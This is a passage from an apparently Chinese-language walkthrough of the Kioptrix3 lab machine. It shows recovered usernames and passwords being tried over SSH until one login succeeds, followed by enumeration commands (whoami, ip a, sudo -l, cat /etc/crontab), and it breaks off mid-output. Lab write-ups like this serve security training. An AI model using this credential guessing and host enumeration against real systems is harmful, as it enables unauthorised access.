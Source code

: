 -   连接ssh进行，使用账号密码进行交叉匹配：

-   ```shell
    # dreg : Mast3r
    # loneferret : starwars
    ❯ ssh -oHostKeyAlgorithms=ssh-rsa,ssh-dss dreg@192.168.2.145
    dreg@192.168.2.145's password: 
    Permission denied, please try again.
    dreg@192.168.2.145's password: 
    Permission denied, please try again.
    dreg@192.168.2.145's password: 
    Linux Kioptrix3 2.6.24-24-server #1 SMP Tue Jul 7 20:21:17 UTC 2009 i686
    
    The programs included with the Ubuntu system are free software;
    the exact distribution terms for each program are described in the
    individual files in /usr/share/doc/*/copyright.
    
    Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
    applicable law.
    
    To access official Ubuntu documentation, please visit:
    http://help.ubuntu.com/
    dreg@Kioptrix3:~$ whoami
    dreg
    dreg@Kioptrix3:~$ ip a
    1: lo: <LOOPBACK,UP,LOWER_UP> mtu 16436 qdisc noqueue 
        link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
        inet 127.0.0.1/8 scope host lo
        inet6 ::1/128 scope host 
           valid_lft forever preferred_lft forever
    2: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
        link/ether 00:0c:29:85:99:55 brd ff:ff:ff:ff:ff:ff
        inet 192.168.2.145/24 brd 192.168.2.255 scope global eth1
        inet6 fe80::20c:29ff:fe85:9955/64 scope link 
           valid_lft forever preferred_lft forever
    dreg@Kioptrix3:~$ sudo -l
    [sudo] password for dreg: 
    Sorry, user dreg may not run sudo on Kioptrix3.
    dreg@Kioptrix3:~$ cat /etc/crontab 
    # /etc/crontab: system-wide crontab
    # Unlike any other crontab you don't have to run the `crontab'
    # command to install the new version when you edit this file
    # and files in /etc/cron.d. These files also have username fields,
    # that none of the other crontabs do.
    